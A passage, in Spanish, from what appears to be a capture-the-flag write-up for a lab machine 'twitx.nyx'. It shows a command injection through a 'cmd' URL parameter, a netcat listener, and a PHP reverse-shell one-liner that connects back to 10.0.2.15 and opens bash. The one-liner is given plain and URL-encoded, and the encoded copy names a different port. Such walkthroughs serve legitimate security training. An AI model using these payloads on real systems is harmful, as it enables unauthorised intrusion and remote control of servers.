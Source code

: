 http://twitx.nyx/private.php?folder=upload&file=17777047896641350dc29929.54816126.png&cmd=whoami

![img_p8_1](../../../assets/images/twitx/img_p8_1.png)

Ahora es momento de intentar hacer una reverse shell con lo que hemos logrado.

Empezamos configurando un listener netcat en el puerto deseado.

![img_p8_2](../../../assets/images/twitx/img_p8_2.png)

Dado que sabemos que el servidor tiene PHP instalado, usamos la siguiente reverse shell:

`php -r '$sock=fsockopen("10.0.2.15",4443);exec("/bin/bash <&3 >&3 2>&3");'`

Pero primero, la codificamos en URL:

`php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

Ahora solo necesitamos cargar la siguiente URL:

`http://twitx.nyx/private.php?folder=upload&file=17777047896641350dc29929.54816126.png&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%

29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

Y obtenemos acceso a la shell:
